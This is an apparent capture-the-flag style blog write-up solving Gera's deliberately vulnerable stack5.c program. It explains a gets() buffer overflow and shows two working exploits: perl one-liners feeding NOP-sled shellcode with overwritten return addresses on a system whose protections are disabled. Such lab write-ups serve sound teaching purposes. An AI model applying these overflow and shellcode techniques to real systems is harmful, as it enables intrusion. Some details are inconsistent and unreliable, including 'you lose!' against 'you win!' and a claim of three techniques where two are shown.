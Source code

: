 Gera's Warming Up on Stack #5 - Solutions
=========================================
date: 05/Jan/2013
summary: Solutions for Gera's Warming up on Stack #5 program.
tags: exploit, ctf

## Introduction

Following is the part 5 in the series of posts I started back in August 2012 with an aim to provide an analysis and possible solutions for the vulnerable programs provided by [Gera](http://corelabs.coresecurity.com/index.php?module=Wiki&action=view&type=researcher&name=Gerardo_Richarte) at his [Insecure Programming](http://community.corest.com/%7Egera/InsecureProgramming/) by example page.

This post follows the [Gera's Warming Up on Stack #4 - Solutions](https://7h3ram.github.io/posts/20130104_geras-wuos-stack4-solutions.html) post and if you have not read it, I request you to please do so. Most of the concepts are very similar and since they have been already talked about, I'll not be reiterating them here.

Let's get started. Below is the source for the vulnerable [stack5.c](http://community.corest.com/%7Egera/InsecureProgramming/stack5.html) program:

```c
/* stack5.c                                     *
 * specially crafted to feed your brain by gera */
int main() {
    int cookie;
    char buf[80];
    printf(*buf: %08x cookie: %08x\n*, &buf, &cookie);
    gets(buf);
    if (cookie == 0x000a0d00)
        printf(*you lose!\n*);
}
```

The above program too accepts user-input through the gets function and then looks for a specific value in a local variable named `cookie`. If this value is equal to a certain pre-defined constant, `printf` function is used to show a `you win!` message to the user. There is no direct means of modifying the content of the `cookie` variable. The `gets` function will keep reading from the stdin device until it encounters a newline or EoF character. Since this reading loop fails to honor the size of the destination buffer, a classic buffer overflow vulnerability is introduced in the program. Our aim is to leverage this vulnerability and exploit this program so that it print the `you win!` message to stdout.

Here are a few observations that could be made by looking at the source of the program:

1. Since it is defined prior to `buf`, the `cookie` would be placed at a higher memory address on the program stack, just below the saved registers from the function prologue
2. The `buf` character array would be at an offset of at least 80B from `cookie`
3. The `gets` call would accept unbounded user-input within `buf` array and hence it provides a mechanism to alter the call stack contents
4. Interestingly, the `you win!` statement is missing from this example. As such, gaining control over `cookie` or EIP alone won't help with the completion of this example.

Stack layout for [stack5.c](http://community.corest.com/%7Egera/InsecureProgramming/stack5.html) is identical to [stack1.c](http://community.corest.com/%7Egera/InsecureProgramming/stack1.html) as already outlined in the [Gera's Warming Up on Stack #1 - Solutions](https://7h3ram.github.io/posts/20120827_geras-wuos-stack1-solutions.html) post.

Here are a few solutions I could think of to get the `you win!` message printed:

- Solution #1: Inject a NOP-prefixed `printf(you win!)` shellcode and overwrite EIP with its address
- Solution #2: Inject a NOP-prefixed `printf(you win!)` shellcode through an environment var and overwrite EIP with its address

Here's a brief description of the test system:

```
# cat /etc/lsb-release | grep DESC ; uname -a | cut -d' ' -f1,3,12-13 ; gcc --version | grep gcc ; cat /proc/cpuinfo | grep -E '(vendor|model|flags)'
DISTRIB_DESCRIPTION=*Ubuntu 10.04.2 LTS*
Linux 2.6.38 i686 GNU/Linux
gcc (Ubuntu 4.4.3-4ubuntu5) 4.4.3
vendor_id   : GenuineIntel
model       : 37
model name  : Intel(R) Core(TM) i3 CPU       M 350  @ 2.27GHz
flags       : fpu vme de pse tsc msr pae mce cx8 apic sep mtrr pge mca cmov pat pse36 clflush mmx fxsr sse sse2 syscall nx lm constant_tsc up pni monitor ssse3 lahf_l
```

## Solutions
### Solution #1: Inject a NOP-prefixed `printf(you win!)` shellcode and overwrite EIP with its address

Here's the GCC commandline to prepare [stack4.c](http://community.corest.com/%7Egera/InsecureProgramming/stack4.html) for Solution #1:

```
# gcc -mpreferred-stack-boundary=2 -fno-stack-protector -z execstack -o stack5 stack5.c 2>/dev/null ; readelf -l stack5 | grep GNU_STACK
  GNU_STACK      0x000000 0x00000000 0x00000000 0x00000 0x00000 RWE 0x4
#
# echo 0 >/proc/sys/kernel/randomize_va_space ; cat /proc/sys/kernel/randomize_va_space
0
```

The Null-free, NOP-prefixed `printf(you win!)` shellcode we used to exploit [stack1.c](http://community.corest.com/%7Egera/InsecureProgramming/stack1.html) in the [Gera's Warming Up on Stack #1 - Solutions](https://7h3ram.github.io/posts/20120827_geras-wuos-stack1-solutions.html) post could be reused here:

```
# ./stack5
buf: bffff4c4 ``cookie``: bffff514
#
# ./stack5
buf: bffff4c4 ``cookie``: bffff514
# ./stack5
buf: bffff4c4 ``cookie``: bffff514
#
# perl -e 'print *\x90*x51 . *\xeb\x16\x31\xc0\x31\xdb\x31\xd2\xb0\x04\xb3\x01\x59\xb2\x09\xcd\x80\x31\xc0\x40\x31\xdb\xcd\x80\xe8\xe5\xff\xff\xff\x79\x6f\x75\x20\x77\x69\x6e\x21* . *\xc4\xf4\xff\xbf*' | ./stack5
buf: bffff4c4 ``cookie``: bffff514
you win!#
```

### Solution #2: Inject a NOP-prefixed `printf(you win!)` shellcode through an environment var and overwrite EIP with its address

Lets get straight to the exploitation:

```
# echo $WINCODE | hexdump -C
00000000  eb 16 31 c0 31 db 31 d2  b0 04 b3 01 59 b2 20 cd  |..1.1.1.....Y. .|
00000010  80 31 c0 40 31 db cd 80  e8 e5 ff ff ff 79 6f 75  |.1.@1........you|
00000020  20 77 69 6e 21 20 0d 0a                           | win! ..|
00000028
#
# ./getenvaddr WINCODE ./stack5
[+] WINCODE: 0xbffff726
#
# perl -e 'print *\x90*x88 . *\x26\xf7\xff\xbf*' | ./stack5
buf: bffff4c4 ``cookie``: bffff514
you win!
```

So, we have now successfully exploited the [stack5.c](http://community.corest.com/%7Egera/InsecureProgramming/stack5.html) program through three different techniques. Depending on the motive of your exploitation attempt, other techniques could be devised and some, mentioned here, be rejected.

## Conclusion

Like I said, earlier, these solutions are not practical anymore. They just serve the purpose of understanding how exploits used to work before mitigation features were introduced in modern systems. But, as with everything else, understanding basics is really important. As mitigation features mature, exploitation techniques become increasingly complex. And to understand those, we need to build upon the solid foundation of basic concepts, like those discussed on this and other blogs.

This was the last post in the `Geras' Warming Up on Stack` series. I plan to start another series for `Gera's Advanced Buffer Overflows` examples. Stay tuned for further updates.
